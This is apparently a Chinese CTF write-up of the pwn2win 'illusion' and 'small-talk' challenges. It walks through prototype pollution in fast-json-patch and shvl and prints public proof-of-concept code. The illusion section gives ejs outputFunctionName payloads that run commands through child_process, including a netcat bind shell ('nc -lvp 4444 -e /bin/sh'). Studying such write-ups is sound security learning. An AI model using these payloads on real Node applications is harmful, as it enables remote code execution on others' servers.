






前言 因为美团。dozer和学校各种事情结果没能打上pwn2win，不过告一段落之后马上来做做国际赛长长见识，第一个就是。全都是node题目啊【不会】，不过感觉还是相当有趣的！
illusion 这题是最简单的，也是最多人做出来的，可是我却不知道咋复现[因为我不会那个什么hashcash计算，希望有师傅看见了能告诉我呜呜
知识点 + 看附件
+ 原型链污染
+ ejs RCE题目开出给了dockerfile(重要)和 源码
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 const express = require ('express' )const bodyParser = require ('body-parser' )const jsonpatch = require ('fast-json-patch' )const ejs = require ('ejs' )const basicAuth = require ('express-basic-auth' )const app = express()app.use(bodyParser.json()) app.use(basicAuth({ users: { "admin" : process.env.SECRET || "admin" }, challenge: true })) let services = { status: "online" , cameras: "online" , doors: "online" , dome: "online" , turrets: "online" } app.use("/static" , express.static(__dirname + "/static" )); app.get("/" , async (req, res) => { const html = await ejs.renderFile(__dirname + "/templates/index.ejs" , {services}) res.end(html) }) app.post("/change_status" , (req, res ) => { let patch = [] Object .entries(req.body).forEach(([service, status] ) => { if (service === "status" ){ res.status(400 ).end("Cannot change all services status" ) return } patch.push({ "op" : "replace" , "path" : "/" + service, "value" : status }) }); jsonpatch.applyPatch(services, patch) if ("offline" in Object .values(services)){ services.status = "offline" } res.json(services) }) app.listen(1337 , () => { console .log(`App listening at port 1337` ) })
代码很短，随便审计就审计完了，一般原型链污染都处于能够被用户自定义控制的地方，所以重点看看
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 app.post("/change_status" , (req, res ) => { let patch = [] Object .entries(req.body).forEach(([service, status] ) => { if (service === "status" ){ res.status(400 ).end("Cannot change all services status" ) return } patch.push({ "op" : "replace" , "path" : "/" + service, "value" : status }) }); jsonpatch.applyPatch(services, patch)
发现他用了一个patch什么的，到package.json中可以看见：
1 2 3 4 5 6 7 8 9 { "dependencies" : { "ejs" : "^3.1.6" , "express" : "^4.17.1" , "express-basic-auth" : "^1.2.0" , "fast-json-patch" : "^3.0.0-1" } }
那么应该就是这个fast-json-path库的问题，去github上搜搜看能够找到：
1 https://github.com/Starcounter-Jack/JSON-Patch/pull/262
别人给出的poc：
1 2 3 4 5 6 7 8 9 10 11 let fastjsonpatch = require ("fast-json-patch" );function A (let a = new A();let b = new A();console .log("Before : " + a.polluted);console .log("Before : " + b.polluted);const patch = [{op : "replace" , path : "/constructor/prototype/polluted" , value : "Yes! Its Polluted" }];fastjsonpatch.applyPatch(a, patch); console .log("After : " + a.polluted);console .log("After : " + b.polluted);

看了看不就和题目出的一模一样吗，但是话又回来，我们却发现即使能够原型链污染了好像还是没啥用啊草。

这时候再观察package.json
1 2 3 4 5 6 7 8 9 { "dependencies" : { "ejs" : "^3.1.6" , "express" : "^4.17.1" , "express-basic-auth" : "^1.2.0" , "fast-json-patch" : "^3.0.0-1" } }
发现ejs，搜了一下ejs原来是一个可以用于RCE的点。只要污染outputFunctionName 这个点就可以进行命令执行。
那么尝试

然后就可以发现写入了，但是看了别人的WP发现这样是不行的，因为还给了你dockerfile
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 FROM node:alpineEXPOSE 1337 COPY flag.txt /root/flag.txt COPY readflag / RUN chmod 4755 /readflag COPY src /app RUN cd /app && npm install USER 405 COPY entrypoint.sh / ENTRYPOINT /entrypoint.sh
可以看见作为guest我们是没有写入权限的，那么就只能去打反弹shell了，网上exp一大堆随便找一个来打就可以了
1 2 3 4 "constructor/prototype/outputFunctionName": "x;console.log(1);process.mainModule.require('child_process').exec('whoami >> src/static/style.css');x" 无法写入之后就打反弹shell "constructor/prototype/outputFunctionName": "x;console.log(1);process.mainModule.require('child_process').exec('nc -lvp 4444 -e /bin/sh');x" # 这里发现老外的思路又和我平常打反弹shell不一样，写成这样payload的话我们ncip过去就可以了
small-talk 又是JS题目
知识点
能够看到源码：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 HTTP/1.1 200 OK Server: gunicorn Date : Tue, 0 1 Jun 2021 12 :0 8:22 GMTConnection: close Content-Type: text/html; charset=utf-8 Content-Length: 2043 <!DOCTYPE html> <html lang="en" > <head> <meta charset="UTF-8" /> <title>Share your thoughts</title> <link href="/static/css/style.css" rel="stylesheet" > <script src="https://unpkg.com/shvl@latest/dist/shvl.umd.js" ></script> <script src="https://unpkg.com/@popperjs/core@2" ></script> </head> <body class "wrap --rtn" > <div> <form action="/admin" method="POST" class "flex-form" > <div id="js-usr-new" class "select__label text" >Share your coach phrases with our admin</div> <input type="url" name="url" placeholder="address" class "ui-elem ui-elem-email text" /> <button id="send-button" type="submit" class "ui-button text" >send</button> <div id="send-tooltip" class "tooltip" role="tooltip" > go ahead, click me :) <div class "tooltip-arrow" data-popper-arrow></div> </div> </form> <div id="quote" class "flex-form" ></div> </div> <iframe id='#quote-base' src="/quotes" ></iframe> <script> const button = document .querySelector('#send-button' ); const tooltip = document .querySelector('#send-tooltip' ); const message = document .querySelector('#quote' ); window .addEventListener('message' , function setup (e ) window .removeEventListener('message' , setup); quote = {'author' : '' , 'message' : '' } shvl.set(quote, Object .keys(JSON .parse(e.data))[0 ], Object .values(JSON .parse(e.data))[0 ]); shvl.set(quote, Object .keys(JSON .parse(e.data))[1 ], Object .values(JSON .parse(e.data))[1 ]); message.textContent = Object .values(quote)[1 ] + ' â ' + Object .values(quote)[0 ] const popperInstance = Popper.createPopper(button, tooltip, { placement: 'bottom' , modifiers: [ { name: 'offset' , options: { offset: [0 , 8 ], }, }, ], }); }); </script> </body> </html>
发现有个quotes，进去看看
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 <script> phrases = [ {'@entrepreneur' : 'The distance between your DREAMS and REALITY is called ACTION' }, {'@successman' : 'MOTIVATION is what gets you started, HABIT is what keeps you going' }, {'@bornrich' : 'It\'s hard to beat someone that never gives up' }, {'@businessman' : 'Work while they sleep. Then live like they dream' }, {'@bigboss' : 'Life begins at the end of your comfort zone' }, {'@daytrader' : 'A successfull person never loses... They either win or learn!' } ] setTimeout (function ( index = Math .floor(Math .random() * 6 ) parent.postMessage('{"author": "' + Object .keys(phrases[index])[0 ] + '", "message": "' + Object .values(phrases[index])[0 ] + '"}' , '*' ); }, 0 ) </script>
然后就没了，想了半天去挨个搜require的东西，结果shvl这个就有问题
1 https://github.com/robinvdvleuten/shvl/pull/35
别人给出的poc：
1 2 3 4 5 6 var shvl = require ("shvl" )let obj = {}console .log("Before: " + {}.polluted)shvl.set(obj, '__proto__.polluted' , 'Yes! Its Polluted' ) console .log("After: " + {}.polluted)

然后翻这段代码，就可以发现
1 2 shvl.set(quote, Object .keys(JSON .parse(e.data))[0 ], Object .values(JSON .parse(e.data))[0 ]); shvl.set(quote, Object .keys(JSON .parse(e.data))[1 ], Object .values(JSON .parse(e.data))[1 ]);
然后我就不知道该咋做了，看带师傅们的博客发现这好像是XSS，可是这题靶机好像不太对了，别人都可以看见留言我看不见


这道题是从 postMessage 中的条件竞争 到原型污染
1 https://lemonslab.me/posts/small-talk-writeup/
node的条件竞争还没见过。感觉很新颖可以拿来出题。
题目的思路为：
+ 加载一个iframe并向postMessage父页面发送一个随机句子
+ 然后页面通过shvl解析
+ 之后放到页面上
+ 初始化[Popper.js](https://github.com/popperjs/popper-core)